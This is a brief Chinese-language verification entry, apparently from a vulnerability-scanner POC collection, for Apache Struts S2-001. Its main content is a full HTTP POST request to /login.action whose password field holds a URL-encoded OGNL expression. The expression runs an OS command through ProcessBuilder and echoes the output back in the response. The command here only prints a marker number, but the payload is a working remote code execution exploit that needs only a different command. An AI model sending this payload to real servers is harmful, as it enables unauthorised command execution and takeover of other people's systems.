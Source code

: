 ﻿# S2_001

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /login.action HTTP/1.1
Content-type: application/x-www-form-urlencoded

username=111111&password=%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22echo+78468794903108696%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_001.poc
